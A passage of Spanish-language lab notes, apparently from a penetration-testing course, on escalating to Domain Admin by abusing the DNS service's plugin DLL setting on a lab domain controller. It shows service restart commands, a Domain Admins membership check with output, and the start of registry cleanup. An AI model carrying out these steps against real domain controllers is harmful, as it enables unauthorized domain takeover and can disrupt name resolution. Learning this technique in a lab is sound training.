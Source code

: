 * `sc stop <servicio>` solicita al servicio que se detenga. La salida muestra `STATE: STOP_PENDING` y otros campos como `WIN32_EXIT_CODE` y `WAIT_HINT`.

**Iniciar:**

```cmd
sc start dns
```

* `sc start <servicio>` arranca el servicio y la salida puede mostrar `STATE: START_PENDING` y el `PID` del proceso si arranca.
* Al arrancar, el servicio intentará cargar la DLL configurada. Si la DLL provoca errores o no existe, el servicio puede quedarse en fallo (por eso el texto advierte que al principio puede fallar hasta limpiar la configuración).

---

## Confirmar que el exploit funcionó

* Tras reinicio exitoso, si la DLL ejecutaba `net group "Domain Admins" ...` deberíamos ver al usuario añadido al grupo `Domain Admins`.
* Comando para listar miembros del grupo Domain Admins en el dominio:

```cmd
net group "Domain Admins" /domain

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.

```

---

## Revertir cambios

**Por qué es crítico:** modificar la configuración y reiniciar DNS en un DC puede derribar resolución de nombres para todo el dominio; hay que tener **permiso explícito del cliente**.

Pasos para limpiar según el texto (desde una consola elevada con cuenta admin):

1. **Comprobar la clave en registro**

```cmd
reg query \\\\10.129.43.9\\HKLM\\SYSTEM\\CurrentControlSet\\Services\\DNS\\Parameters

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters
    GlobalQueryBlockList    REG_MULTI_SZ    wpad\0isatap
    EnableGlobalQueryBlockList    REG_DWORD    0x1
    PreviousLocalHostname    REG_SZ    WINLPE-DC01.INLANEFREIGHT.LOCAL
    Forwarders    REG_MULTI_SZ    1.1.1.1\08.8.8.8
    ForwardingTimeout    REG_DWORD    0x3
    IsSlave    REG_DWORD    0x0
    BootMethod    REG_DWORD    0x3
    AdminConfigured    REG_DWORD    0x1
    ServerLevelPluginDll    REG_SZ    adduser.dll

```
